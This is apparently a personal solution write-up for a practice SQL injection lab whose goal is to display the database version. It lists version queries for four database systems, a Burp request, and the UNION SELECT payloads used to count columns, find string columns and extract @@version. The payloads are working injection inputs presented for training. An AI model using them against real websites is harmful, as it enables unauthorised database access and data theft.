 ## End Goal :  To solve the lab, display the database version string. 

## Database version

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

|   |   |
|---|---|
|Oracle|`SELECT banner FROM v$version   SELECT version FROM v$instance   `|
|Microsoft|`SELECT @@version`|
|PostgreSQL|`SELECT version()`|
|MySQL|`SELECT @@version`|


## Burp

GET /filter?category=Pets HTTP/2

## Finding the number column:

`Pets ' Union select null, null #`
for mysql comment is # not --

here number of column = 2


## finding column of string data type

`Pets ' Union select 'a', 'a' #`

Both column are of string data type

## solving the end goal

`pets ' union select @@version , 'a' #`
